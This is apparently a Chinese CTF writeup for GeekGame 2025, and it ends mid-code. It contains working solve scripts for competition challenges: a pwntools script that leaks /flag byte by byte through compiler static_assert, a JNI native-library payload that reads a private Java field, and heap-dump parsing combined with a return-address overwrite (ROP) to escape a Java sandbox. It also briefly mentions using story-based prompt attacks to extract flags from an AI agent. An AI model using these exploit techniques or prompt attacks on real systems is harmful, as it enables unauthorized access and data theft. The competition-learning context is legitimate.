

# GeekGame 2025 Writeup

uid: 1778

## 签到 tutorial-signin

最开始其实看出来了是二维码，但是手机上的qr scanner扫不出来，后来发现必须在透明背景上才能扫出来

随便找了个[网站](https://ezgif.com/split)把gif拆分了，然后又找了个[网站](https://www.img2go.com/compare-image)标注图片间的差异像素点，然后就能扫出来了

## 北清问答 tutorial-trivia

应该是做出来了教学楼，数token和chrome版本号

教学楼[直接搜](https://www.google.com.hk/search?client=ubuntu-sn&channel=fs&q=%E5%8C%97%E4%BA%AC%E5%A4%A7%E5%AD%A6%E6%96%B0%E7%87%95%E5%9B%AD%E6%A0%A1%E5%8C%BA+%E6%95%99%E5%AD%A6%E6%A5%BC)就能[搜到](https://www.cpc.pku.edu.cn/info/1042/1076.htm#&gid=1&pid=3)，加起来就行了; token是把源码下载下来之后直接[让grok数的](https://grok.com/share/bGVnYWN5_eed28776-4cf4-4d41-8e4a-2f840d9f38b8); chrome版本号是[直接问的gemini](https://aistudio.google.com/app/prompts?state=%7B%22ids%22:%5B%221xbA7psUSSbSC5mlLNzI7akRJ7akMpE37%22%5D,%22action%22:%22open%22,%22userId%22:%22116883091819257974117%22,%22resourceKeys%22:%7B%7D%7D&usp=sharing)

## 别样的人机大战 misc-agent

不是很会提示词攻击，让grok写了个[小故事](https://grok.com/share/bGVnYWN5_26a6767b-fd20-4340-9287-b30adfd992fd)，然后改了一下

用不同的版本试了好几次，最后用下图的版本获取了flag2，不过可能也不能稳定复现。把里面的hint去掉的话大概率能获取到flag1，虽然最开始是用的另一个故事搞出来的


## Warden++ misc-wardenpp

用#embed获取到文件内容，然后再利用static_assert二分查找就行了。查找的代码当然是ai写的（）

喂给ai的示例代码
```cpp
constexpr const char flag[] = {
#embed "/flag"
};

static_assert(sizeof(flag) == 41);
static_assert(flag[0] == 'f');
static_assert(flag[1] == 'l');
static_assert(flag[2] == 'a');
static_assert(flag[3] == 'g');
static_assert(flag[4] == '{');
static_assert(flag[5] <= 'A');

int main() {
    return 0;
}

```

ai生成的查找代码
```python
from pwn import *

# Configuration
HOST = 'prob07.geekgame.pku.edu.cn'  # Change to actual host
PORT = 10007        # Change to actual port
TOKEN = ''  # Change to your token

def check_char(r, pos, char):
    """Check if flag[pos] == char using static_assert"""
    code = f'''constexpr const char flag[] = {{
#embed "/flag"
}};

static_assert(flag[{pos}] == '{char}');

int main() {{
    return 0;
}}
END
'''
    r.sendline(code.encode())
    response = r.recvuntil(b'!')
    r.recvline()
    
    return b"Success" in response

def check_char_range(r, pos, char, op):
    """Check if flag[pos] >= min_char or <= max_char"""
    code = f'''constexpr const char flag[] = {{
#embed "/flag"
}};

static_assert(flag[{pos}] {op} '{chr(char)}');

int main() {{
    return 0;
}}
END
'''
    r.sendline(code.encode())
    response = r.recvuntil(b'!')
    r.recvline()
    
    return b"Success" in response

def bruteforce_char(r, pos):
    """Bruteforce character at position pos using binary search"""
    log.info(f"Bruteforcing position {pos}")
    
    # Binary search for printable ASCII (32-126)
    low = 32
    high = 126
    
    while low < high:
        mid = (low + high) // 2
        if check_char_range(r, pos, high, '<=') and check_char_range(r, pos, mid, '>'):
            low = mid + 1
        else:
            high = mid
    
    # Verify the found character
    found_char = chr(low)
    if check_char(r, pos, found_char):
        log.success(f"flag[{pos}] = '{found_char}'")
        return found_char
    else:
        log.error(f"Failed to verify character at position {pos}")
        return None

def main():
    # Connect to server
    r = remote(HOST, PORT)
    r.sendline(TOKEN.encode())
    
    # Receive banner
    r.recvuntil(b'P.S Flag is at /flag on the server :)')
    log.info("Received banner")
    
    # Send token if required
    # r.sendlineafter(b'Token:', TOKEN)
    
    # We know from static_assert that flag size is 41
    flag_size = 41
    flag = ['?'] * flag_size

    flag[0:28] = 'flag{EScape_teCHnIQUeS_updaT' # 这里查找到一半服务器断开连接了
    
    for pos in range(28, flag_size):
        char = bruteforce_char(r, pos)
        if char:
            flag[pos] = char
            log.info(f"Current flag: {''.join(flag)}")
        else:
            log.error(f"Failed at position {pos}")
            break
    
    final_flag = ''.join(flag)
    log.success(f"Final flag: {final_flag}")
    
    r.close()

if __name__ == '__main__':
    main()
    
```

## 开源论文太少了！ misc-paper

pdf直接用[hex editor](https://hexed.it)打开就能搜索到包含flag的字符串，遂询问ai

后面的就不用多说了，直接看[prompt](https://grok.com/share/bGVnYWN5_30e1f833-cc41-43bd-9355-ac067e65dee2)就行，grok甚至直接把flag2给出来了

当然获取flag1的代码是我自己写的，不过为了赶时间使用了python interactive console. 代码大概就是基于已知前两个字符是fl，对其ascii码之比取对数，然后和前两个y坐标之差对比算出缩放的倍数，然后往后算就行了

## 勒索病毒 misc-ransomware

打开被加密的文件之后首先注意到的就是三个文件的最后512个字节是相同的，虽然并没有什么卵用

然后就是问ai了，还是看[prompt](https://grok.com/share/bGVnYWN5_7aad8a34-583e-43dd-9296-c937fbae9799)就行 不过prompt里只有前半部分是有用的，后面就是跟grok扯关于flag3的东西了。虽然猜到大概率是根据deflate流的已知部分恢复出来后面的内容，但是直到最后也没能让ai给出来一个能跑的代码（）

还有就是关于flag2，首先ai写的zip修复代码会漏掉一个版本号0x14，而用zip -FF就能恢复出来；然后就是所有方法都没办法直接恢复出来CDFH的external file attributes，但是no-flag-here的这一部分正好对应上flag的开头，所以可以得到其数值是0x01800000，然后应用到also-not-here上面就可以了

## EzMCP web-ezmcp

完全不会web（）最后比赛结束之前看到说ezmcp的flag1有弱智解法，于是询问ai，然后把flag1搞出来了。虽然之后试了40多分钟也没搞出来flag2


## 团结引擎 binary-unity

虽然这题很简单，但是由于之前搞的unity程序基本上都是用的il2cpp，所以看到纯c#的Assembly-CSharp反而不知道要怎么改了。由于我之前反编译c#一般用的是ILSpy，虽然电脑里有dnSpy，但是没怎么用过，所以一开始不知道dnSpy可以直接改源码重新编译。于是我做flag1的时候是直接拿ida改的il指令，最开始把
```c#
[SerializeField]
	private float waitDuration = 2592000f;
```
里面的时间改成了0，不过发现没卵用。显然2592000其实并不是5天（）看到SerializeField，显然这个时间是在Editor里面又单独指定过了，也符合xmcp对改计时器时间的描述（）

之后是把Updata()里面控制倒计时的代码改了，把原本的get_deltaTime()调用删掉了，然后改成了`_accumulatedTime+=1000`，具体在il上是这样的:
```
ldarg.0
ldarg.0
ldfld    float32 Door1::_accumulatedTime
call     float32 [UnityEngine.CoreModule]UnityEngine.Time::get_deltaTime()
add
stfld    float32 Door1::_accumulatedTime
```
改成
```
ldarg.0
ldarg.0
ldfld    float32 Door1::_accumulatedTime
ldc.r4   1000.0
add
stfld    float32 Door1::_accumulatedTime
```
最终的c#代码是:
```c#
if (_isCountingDown)
{
	_accumulatedTime += 1000f;
	if (_accumulatedTime >= 1f)
	{
		int num2 = Mathf.FloorToInt(_accumulatedTime);
		_remainingTime -= num2;
		_accumulatedTime -= num2;
		UpdateCountdownText();
	}
	if (_remainingTime <= 0f)
	{
		_remainingTime = 0f;
		_countdownText.text = "Opening";
		_isCountingDown = false;
		_isOpening = true;
		_openingElapsed = 0f;
	}
}
```
于是就可以拿到flag1了。看到flag2之后我本来是打算直接解包的，但是用AssetStudio打开之后发现读不出来材质，所以我还以为材质加密了（）完全忘了还有AssetRipper了。之后我打算把那个球给拿出来，于是需要想办法把`UnityEngine.GameObject.Find()`导入到Assembly-CSharp里面来。然后问了半天ai，最后打开dnSpy发现居然可以直接改源码（）之后就没什么可说的了，首先是让Door0打开之后再重新关上，从而把玩家顶上去，然后跳到flag3的门后面。再就是在Door0的OpenRoutine里面用GameObject.Find找到并操作`Sphere`（GameObject的名称可以从AssetStudio提取出来的Scene Hierarchy里面获得，Sphere很显然就是那个球了），把坐标改成了(10, 10, 10).总体来说就是把OpenRoutine改成了这样:
```c#
// Door0
// Token: 0x0600000A RID: 10 RVA: 0x0000312E File Offset: 0x0000132E
private IEnumerator OpenRoutine()
{
	this._openingTriggered = true;
	yield return this.MoveMountedObject();
	this._mountedTargetPos = this._mountedStartPos;
	yield return this.MoveMountedObject();
	GameObject.Find("Sphere").transform.localPosition = new Vector3(10f, 10f, 10f);
	yield break;
}
```
最后的效果如图所示:


## 枚举高手的 bomblab 审判 binary-ffi

主函数中显然可以发现用来校验flag1和flag2的函数:
```c
__int64 __fastcall main(int a1, char **a2, char **a3)
{
  size_t v3; // rax
  _BOOL4 v4; // ebx
  const char *v5; // rdi

  puts("Enter your flag:");
  fflush(stdout);
  if ( fgets(flag_input, 256, stdin) )
  {
    v3 = strlen(flag_input);
    if ( v3 && flag_input[v3 - 1] == 10 )
      flag_input[v3 - 1] = 0;
    __rdtsc();
    __rdtsc();
    v4 = check_flag1();
    v5 = "Correct!";
    if ( !check_flag2() && !v4 )
      v5 = "Incorrect!";
    puts(v5);
  }
  return 0;
}
```

### flag1

```c
_BOOL8 check_flag1()
{
  size_t v0; // rdi
  char v1; // cl
  unsigned __int64 i; // rsi
  _BYTE v4[120]; // [rsp+0h] [rbp-8B8h] BYREF
  char s1[1024]; // [rsp+78h] [rbp-840h] BYREF
  char s2[1032]; // [rsp+478h] [rbp-440h] BYREF
  unsigned __int64 v7; // [rsp+888h] [rbp-30h]

  v7 = __readfsqword(0x28u);
  __rdtsc();
  v0 = strlen(byte_5D04CB768030);
  v1 = -76;
  for ( i = 0; ; v1 = byte_5D04CB7661A0[i] )
  {
    v4[i] = __ROL1__(v1 ^ byte_5D04CB768030[i % v0] ^ 0x3C, (i & 3) + 1) ^ 0xA5;
    if ( ++i == 45 )
      break;
  }
  v4[45] = 0;
  sub_5D04CB765CA0(v4, s1);
  sub_5D04CB765CA0(flag_input, s2);
  return strcmp(s1, s2) == 0;
}
```
（由于调试过，地址被rebase了）

显然可以发现这里的`sub_5D04CB765CA0`的目的是加密flag_input和flag1，并在之后用于判断结果是否相等。既然函数被设计为只有当flag_input与flag1一致时才返回true，且二者使用了相同的函数进行加密，那么基本上可以判断这里的v4就是flag1，不用看函数的内容，只要在这里设个断点就可以读出来了。

### flag2

`check_flag2`函数过大，并且函数开栈时的小巧思导致ida的local variable分配失败，这里就不放反编译的代码了。
```x86asm
    lea     r11, [rsp+30h+var_4030]
loc_5D04CB7657F2:
    sub     rsp, 1000h
    or      [rsp+1030h+var_1030], 0
    cmp     rsp, r11
    jnz     short loc_5D04CB7657F2
    sub     rsp, 888h
```
以及这里
```x86asm
    push    rbp
    mov     rbp, rsp
    xor     rax, rax
    test    rax, rax
    jz      short loc_5D04CB765922
    call    $+5
loc_5D04CB765922:
    pop     rbp
```
虽然是常见的混淆手段，但不知道为什么ida这次栽到这里了，即使手动把这段代码patch掉也救不回来，所以就直接逐行调试了。

调试过程中可以发现这里又一个虚拟化的小巧思，具体来说，这里的64字节实际上是一个小虚拟机的字节码:
```x86asm
.rodata:00005D04CB766100 ; _BYTE vm_program[64]
.rodata:00005D04CB766100 vm_program      db 3, 0, 1, 2 dup(0), 1, 0, 21h, 3, 2 dup(1), 2 dup(0)
.rodata:00005D04CB766100                                         ; DATA XREF: check_flag2:loc_5D04CB7658E9↑o
.rodata:00005D04CB766100                                         ; check_flag2:loc_5D04CB765B79↑o ...
.rodata:00005D04CB76610D                 db 1, 0, 21h, 3, 4 dup(0), 3, 0, 2, 2 dup(0), 3, 0FFh
.rodata:00005D04CB76611C                 db 1, 2 dup(0), 20h, 40h, 3, 0, 1, 2 dup(0), 3, 2 dup(1)
.rodata:00005D04CB766129                 db 2 dup(0), 3, 4 dup(0), 3, 0, 6, 2 dup(0), 3, 0, 0Ah
.rodata:00005D04CB766138                 db 2 dup(0), 3, 27h, 3 dup(0), 41h
```
该虚拟机是一个stack machine，使用r8作为pc, r9作为sp. 其具有以下几种指令：
```
01 xx
push8. 将一个8位整数压栈。
03 xx xx xx xx
push32. 将一个32位整数压栈。
20
load8. 从栈顶取出一个32位整数作为地址，并从该地址取出一个8位整数压栈。
21
store8. 从栈顶依次取出一个8位整数和一个32位整数，将前者存储至后者所指向的地址。
40
expand_key. 从栈顶依次取出3个整数key_size, key, buf, 其中后二者为地址。使用key指向的大小为key_size的内存在buf处生成256字节的密钥。
41
cipher. 从栈顶依次取出6个整数size, dst, src, key, p_init_offset, p_init_vector，其中除size外均为地址。基于key所指向的256字节密钥，使用*p_init_offset作为密钥的初始偏移量（此后依次在256字节中循环），*p_init_vector作为初始向量（该值每轮加密中将与key在前述偏移量的值相加，并用于生成另一个需要的偏移量），通过某种加密算法将src所指向的size字节数据加密并存储至dst.
```
注：栈的基本访问单位是32字节，上述8位栈操作实际上是对8位整数zero-extend之后压栈。sp每加1代表栈内压入一个32位整数。上述地址为在该函数栈内一0x4000字节的数组内的偏移量。

虽然看着很高级，但是最后加密的方式实际上还是生成一个固定的xor key并作用于明文上。因此直接在下面的`xor     cl, [rsp+r13+18C0h+var_1050]`指令处设断点，读cl的值就能获取密钥了:
```x86asm
loc_5D04CB765A6A:
	lea     r13d, [r12+r11]
	movzx   r13d, r13b
	add     r13, rax
	movzx   ecx, byte ptr [r13+0]
	add     r9d, ecx
	movzx   r10d, r9b
	add     r10, rax
	movzx   r14d, byte ptr [r10]
	mov     [r13+0], r14b
	mov     [r10], cl
	add     cl, [r13+0]
	lea     r13d, [r8+r11]
	lea     r10d, [rbx+r11]
	movzx   ecx, cl
	add     r11d, 1
	movzx   ecx, byte ptr [rax+rcx]
	xor     cl, [rsp+r13+18C0h+var_1050]
	mov     [rsp+r10+18C0h+var_1050], cl
loc_5D04CB765AB6:
	cmp     edx, r11d
	jnz     short loc_5D04CB765A6A
```
函数将flag_input按照上述方式加密后与一固定数组进行对比，因此只需要将该数组与获取到的xor key进行异或即可得到flag2.

## 7 岁的毛毛：我要写 Java binary-java

### flag1

虽然不是很懂java，不过由于安卓大量使用java及其类似物，所以对jni还是有所了解的。通过询问ai，了解到可以通过jni函数直接读取到Flag1类中存储的flag.

通过编译以下c代码:
```c
#include <jni.h>
#include <stdio.h>

JNIEXPORT void JNICALL Java_Solution_extractFlag(JNIEnv *env, jclass cls, jobject obj) {
    jclass flag1Class = (*env)->GetObjectClass(env, obj);
    jfieldID flagField = (*env)->GetFieldID(env, flag1Class, "flag", "Ljava/lang/String;");
    jstring flagValue = (*env)->GetObjectField(env, obj, flagField);
    const char *flagStr = (*env)->GetStringUTFChars(env, flagValue, NULL);
    printf("Flag: %s\n", flagStr);
    (*env)->ReleaseStringUTFChars(env, flagValue, flagStr);
}
```
并将其编译后嵌入到如下的java文件:
```java
import java.io.IOException;
import java.nio.file.*;

public class Solution {
	private static final String libsolution = 
        "7f454c4602010100000000000000000003003e000100000000..."

	public static void solve(Object obj) {
		byte[] payload = new byte[libsolution.length()/2];
		for (int i = 0; i < payload.length; i++)
    	payload[i] = (byte)Integer.parseInt(libsolution.substring(i * 2, i * 2 + 2), 16);
		Path path = Paths.get("libsolution.so");
        try {
            Files.write(path, payload);
            System.out.println("File created successfully!");
        } catch (IOException e) {
            System.err.println("Error creating the file: " + e.getMessage());
        }
		System.load("/libsolution.so");
		String flag = extractFlag(obj);
		System.out.println("Extracted flag: " + flag);
	}

	private static native String extractFlag(Object obj);
}

```
即可获取到flag1.

### flag2

虽然我不懂FFM，但是ai直接给出来了flag2的（原本的）非预期解（虽然之后这个解在事实上成为了预期解）


### flag3

这个flag就没有ai会做了，而且在给出提示之前我也完全不知道还能直接在运行过程中做heap dump（）

放出提示后马上问ai怎么搞heap dump，虽然ai能给出创建heap dump的方法，但是始终没办法创建出能成功从.hprof文件中解析出sysInfoSegment地址的代码，最后我从ai生成的一堆东西里面找出来了一个至少能返回一个有效的内存地址的东西:

ai生成的完整代码如下:
```java
import java.lang.management.ManagementFactory;
import com.sun.management.HotSpotDiagnosticMXBean;
import java.io.*;
import java.nio.charset.StandardCharsets;
import java.util.*;

public class Solution {
    // HPROF tags
    private static final int STRING_TAG = 0x01;
    private static final int LOAD_CLASS_TAG = 0x02;
    private static final int HEAP_DUMP_TAG = 0x0C;
    private static final int HEAP_DUMP_SEGMENT_TAG = 0x1C;
    
    // HEAP_DUMP subtags
    private static final int CLASS_DUMP_SUBTAG = 0x20;
    private static final int OBJECT_TYPE = 2;
    
    public static Object solve(Object sysInfoObj) {
        String dumpFilename = null;
        try {
            dumpFilename = "heap-dump.hprof";
            HotSpotDiagnosticMXBean mxBean = ManagementFactory.getPlatformMXBean(
                    com.sun.management.HotSpotDiagnosticMXBean.class);
            mxBean.dumpHeap(dumpFilename, true);
            
            Long address = extractMemorySegmentAddress(dumpFilename);
            
            return address != null ? 
                "sysInfoSegment address: 0x" + Long.toHexString(address) : 
                "Could not find sysInfoSegment address";
        } catch (Exception e) {
            return "Error: " + e.getMessage();
        } finally {
            try {
                if (dumpFilename != null) {
                    new File(dumpFilename).delete();
                }
            } catch (Exception ignored) {}
        }
    }
    
    private static Long extractMemorySegmentAddress(String filename) throws IOException {
        try (DataInputStream dis = new DataInputStream(new BufferedInputStream(new FileInputStream(filename)))) {
            // Skip HPROF header "JAVA PROFILE "
            byte[] header = new byte[4];
            dis.readFully(header);
            // Skip version
            int b;
            while ((b = dis.read()) > 0) {}
            
            // Read identifier size
            int identifierSize = dis.readInt();
            // Skip timestamp
            dis.readLong();
            
            // Maps to store string and class information
            Map<Long, String> strings = new HashMap<>();
            Map<Long, String> classNames = new HashMap<>();
            
            // Process records
            while (dis.available() > 0) {
                byte tag = dis.readByte();
                dis.skipBytes(4); // Skip timestamp
                int length = dis.readInt();
                
                switch (tag) {
                    case STRING_TAG:
                        long stringId = readId(dis, identifierSize);
                        byte[] stringBytes = new byte[length - identifierSize];
                        dis.readFully(stringBytes);
                        String str = new String(stringBytes, StandardCharsets.UTF_8);
                        strings.put(stringId, str);
                        break;
                        
                    case LOAD_CLASS_TAG:
                        dis.skipBytes(4); // Skip serial
                        long classId = readId(dis, identifierSize);
                        dis.skipBytes(4); // Skip stack trace serial
                        long nameId = readId(dis, identifierSize);
                        String className = strings.get(nameId);
                        if (className != null) {
                            classNames.put(classId, className);
                        }
                        break;
                        
                    case HEAP_DUMP_TAG:
                    case HEAP_DUMP_SEGMENT_TAG:
                        long endPosition = dis.available() - length;
                        while (dis.available() > endPosition) {
                            byte subtag = dis.readByte();
                            
                            if (subtag == CLASS_DUMP_SUBTAG) {
                                long dumpClassId = readId(dis, identifierSize);
                                String dumpClassName = classNames.get(dumpClassId);
                                
                                // Skip stack trace serial, superclass ID, classloader ID
                                dis.skipBytes(4 + identifierSize * 2);
                                
                                // Skip signers ID, protection domain ID, reserved (2)
                                dis.skipBytes(identifierSize * 4);
                                
                                // Instance size
                                dis.skipBytes(4);
                                
                                // Constant pool
                                short cpCount = dis.readShort();
                                for (int i = 0; i < cpCount; i++) {
                                    dis.skipBytes(2);
                                    byte type = dis.readByte();
                                    dis.skipBytes(getTypeSize(type));
                                }
                                
                                // Static fields
                                short staticFieldCount = dis.readShort();
                                
                                // If this is the Flag3 class
                                if ("Flag3".equals(dumpClassName)) {
                                    for (int i = 0; i < staticFieldCount; i++) {
                                        long nameStringId = readId(dis, identifierSize);
                                        byte type = dis.readByte();
                                        String fieldName = strings.get(nameStringId);
                                        
                                        if ("sysInfoSegment".equals(fieldName) && type == OBJECT_TYPE) {
                                            return readId(dis, identifierSize);
                                        } else {
                                            dis.skipBytes(getTypeSize(type));
                                        }
                                    }
                                } else {
                                    // Skip all static fields
                                    for (int i = 0; i < staticFieldCount; i++) {
                                        dis.skipBytes(identifierSize);
                                        byte type = dis.readByte();
                                        dis.skipBytes(getTypeSize(type));
                                    }
                                }
                                
                                // Skip instance fields
                                short instanceFieldCount = dis.readShort();
                                dis.skipBytes(instanceFieldCount * (identifierSize + 1));
                            } else {
                                skipHeapDumpSubRecord(dis, subtag, identifierSize);
                            }
                        }
                        break;
                        
                    default:
                        dis.skipBytes(length);
                }
            }
        }
        return null;
    }
    
    private static long readId(DataInputStream dis, int idSize) throws IOException {
        if (idSize == 4) {
            return dis.readInt() & 0xFFFFFFFFL;
        } else {
            return dis.readLong();
        }
    }
    
    private static int getTypeSize(byte type) {
        switch (type) {
            case 2: return 8; // object
            case 8: case 6: return 8; // long, double
            case 4: case 7: case 9: case 10: case 5: return 4; // boolean, float, int, short, char
            case 1: return 1; // byte
            default: return 0;
        }
    }
    
    private static void skipHeapDumpSubRecord(DataInputStream dis, byte subtag, int idSize) throws IOException {
        switch (subtag) {
            case 0x01: // ROOT_JNI_GLOBAL
            case 0x03: // ROOT_JNI_LOCAL
            case 0x05: // ROOT_JAVA_FRAME
                dis.skipBytes(idSize + 4);
                break;
            case 0x02: // ROOT_JNI_LOCAL
                dis.skipBytes(idSize + 8);
                break;
            case 0x04: // ROOT_NATIVE_STACK
            case 0x06: // ROOT_STICKY_CLASS
            case 0x0A: // ROOT_JNI_MONITOR
                dis.skipBytes(idSize + 4);
                break;
            case 0x07: // ROOT_THREAD_BLOCK
            case 0x08: // ROOT_MONITOR_USED
                dis.skipBytes(idSize);
                break;
            case 0x09: // ROOT_THREAD_OBJECT
                dis.skipBytes(idSize + 4 + 4);
                break;
            case 0x21: // INSTANCE_DUMP
                dis.skipBytes(idSize); // object ID
                dis.skipBytes(4); // stack trace serial
                dis.skipBytes(idSize); // class ID
                int contentSize = dis.readInt();
                dis.skipBytes(contentSize);
                break;
            case 0x22: // OBJECT_ARRAY_DUMP
                dis.skipBytes(idSize); // array ID
                dis.skipBytes(4); // stack trace serial
                int elements = dis.readInt();
                dis.skipBytes(idSize); // element class ID
                dis.skipBytes(elements * idSize);
                break;
            case 0x23: // PRIMITIVE_ARRAY_DUMP
                dis.skipBytes(idSize); // array ID
                dis.skipBytes(4); // stack trace serial
                elements = dis.readInt();
                byte elementType = dis.readByte();
                dis.skipBytes(elements * getTypeSize(elementType));
                break;
        }
    }
}
```
但是通过在Flag3里面加入输出实际地址的调试代码，我发现上面的代码返回的并不是用于构建sysInfoSegment的地址。最后通过输出这个地址所指向的内存的内容，我发现这应该是sysInfoSegment这个对象在内存中的地址，而其offset0x20处就是用于构建该对象的地址，也就是flag3.c中的info的地址。

既然已经获取到jni函数的栈地址了，那就直接ROP，启动！

对获取到的地址进行以下操作:
```java
MemorySegment retAddrSeg = MemorySegment.ofAddress(address - 8).reinterpret(0x1000);
Long baseAddress = retAddrSeg.get(ValueLayout.JAVA_LONG, 0);
retAddrSeg.set(ValueLayout.JAVA_LONG, 0, baseAddress - 0x134);
for (int i = 8; i < 0x88; i += 8) {
    retAddrSeg.set(ValueLayout.JAVA_LONG, i, baseAddress - 0x12D);
}
retAddrSeg.set(ValueLayout.JAVA_LONG, 0x88, baseAddress + 0x4C);
```
参考flag3.c:
```c
JNIEXPORT jstring JNICALL Java_Flag3_sysInfo(JNIEnv *env, jclass cls) {
  jail(env);
  struct sysinfo info;
  sysinfo(&info);
  jmethodID mid = (*env)->GetStaticMethodID(env, cls, "parseSysInfo",
                                            "(J)Ljava/lang/Object;");
  jobject obj =
      (*env)->CallStaticObjectMethod(env, cls, mid, (jlong)(uintptr_t)&info);
  if (!(*env)->IsInstanceOf(env, obj,
                            (*env)->FindClass(env, "java/lang/String"))) {
    return NULL;
  }
  return (jstring)obj;
}
```
这里在我们的`solve`方法被调用时，`Java_Flag3_sysInfo`函数调用了`CallStaticObjectMethod`函数。由于`info`结构体位于函数的栈顶，因此`(&info - 8)`就是`CallStaticObjectMethod`的返回地址，也就是这条call指令下方的地址。因此我们可以直接获取到image base，并将该返回地址篡改为`Java_Flag3_getFlag`的地址。随后只要在栈中填满retn的gadget，并在最后导向正确的控制流即可。

完整代码如下:
```java
import java.lang.foreign.*;
import java.lang.management.ManagementFactory;
import com.sun.management.HotSpotDiagnosticMXBean;
import java.io.*;
import java.nio.charset.StandardCharsets;
import java.util.*;

public class Solution {
    // HPROF tags
    private static final int STRING_TAG = 0x01;
    private static final int LOAD_CLASS_TAG = 0x02;
    private static final int HEAP_DUMP_TAG = 0x0C;
    private static final int HEAP_DUMP_SEGMENT_TAG = 0x1C;
    
    // HEAP_DUMP subtags
    private static final int CLASS_DUMP_SUBTAG = 0x20;
    private static final int OBJECT_TYPE = 2;
    
    public static Object solve(Object sysInfoObj) {
        String dumpFilename = null;
        try {
            dumpFilename = "heap-dump.hprof";
            HotSpotDiagnosticMXBean mxBean = ManagementFactory.getPlatformMXBean(
                    com.sun.management.HotSpotDiagnosticMXBean.class);
            mxBean.dumpHeap(dumpFilename, true);
            
            Long address = extractMemorySegmentAddress(dumpFilename);
            MemorySegment seg = MemorySegment.ofAddress(address).reinterpret(0x28);
            address = seg.get(ValueLayout.JAVA_LONG, 0x20);
            MemorySegment retAddrSeg = MemorySegment.ofAddress(address - 8).reinterpret(0x1000);
            Long baseAddress = retAddrSeg.get(ValueLayout.JAVA_LONG, 0) - 0x13B8;
            retAddrSeg.set(ValueLayout.JAVA_LONG, 0, baseAddress + 0x1280);
            for (int i = 8; i < 0x88; i += 8) {
                retAddrSeg.set(ValueLayout.JAVA_LONG, i, baseAddress + 0x128B);
            }
            retAddrSeg.set(ValueLayout.JAVA_LONG, 0x88, baseAddress + 0x1404);
            
            return Long.toHexString(baseAddress);
        } catch (Exception e) {
            return "Error: " + e.getMessage();
        } finally {
            try {
                if (dumpFilename != null) {
                    new File(dumpFilename).delete();
                }
            } catch (Exception ignored) {}
        }
    }
    
    private static Long extractMemorySegmentAddress(String filename) throws IOException {
        try (DataInputStream dis = new DataInputStream(new BufferedInputStream(new FileInputStream(filename)))) {
            // Skip HPROF header "JAVA PROFILE "
            byte[] header = new byte[4];
            dis.readFully(header);
            // Skip version
            int b;
            while ((b = dis.read()) > 0) {}
            
            // Read identifier size
            int identifierSize = dis.readInt();
            // Skip timestamp
            dis.readLong();
            
            // Maps to store string and class information
            Map<Long, String> strings = new HashMap<>();
            Map<Long, String> classNames = new HashMap<>();
            
            // Process records
            while (dis.available() > 0) {
                byte tag = dis.readByte();
                dis.skipBytes(4); // Skip timestamp
                int length = dis.readInt();
                
                switch (tag) {
                    case STRING_TAG:
                        long stringId = readId(dis, identifierSize);
                        byte[] stringBytes = new byte[length - identifierSize];
                        dis.readFully(stringBytes);
                        String str = new String(stringBytes, StandardCharsets.UTF_8);
                        strings.put(stringId, str);
                        break;
                        
                    case LOAD_CLASS_TAG:
                        dis.skipBytes(4); // Skip serial
                        long classId = readId(dis, identifierSize);
                        dis.skipBytes(4); // Skip stack trace serial
                        long nameId = readId(dis, identifierSize);
                        String className = strings.get(nameId);
                        if (className != null) {
                            classNames.put(classId, className);
                        }
                        break;
                        
                    case HEAP_DUMP_TAG:
                    case HEAP_DUMP_SEGMENT_TAG:
                        long endPosition = dis.available() - length;
                        while (dis.available() > endPosition) {
                            byte subtag = dis.readByte();
                            
                            if (subtag == CLASS_DUMP_SUBTAG) {
                                long dumpClassId = readId(dis, identifierSize);
                                String dumpClassName = classNames.get(dumpClassId);
                                
                                // Skip stack trace serial, superclass ID, classloader ID
                                dis.skipBytes(4 + identifierSize * 2);
                                
                                // Skip signers ID, protection domain ID, reserved (2)
                                dis.skipBytes(identifierSize * 4);
                                
                                // Instance size
                                dis.skipBytes(4);
                                
                                // Constant pool
                                short cpCount = dis.readShort();
                                for (int i = 0; i < cpCount; i++) {
                                    dis.skipBytes(2);
                                    byte type = dis.readByte();
                                    dis.skipBytes(getTypeSize(type));
                                }
                                
                                // Static fields
                                short staticFieldCount = dis.readShort();
                                
                                // If this is the Flag3 class
                                if ("Flag3".equals(dumpClassName)) {
                                    for (int i = 0; i < staticFieldCount; i++) {
                                        long nameStringId = readId(dis, identifierSize);
                                        byte type = dis.readByte();
                                        String fieldName = strings.get(nameStringId);
                                        
                                        if ("sysInfoSegment".equals(fieldName) && type == OBJECT_TYPE) {
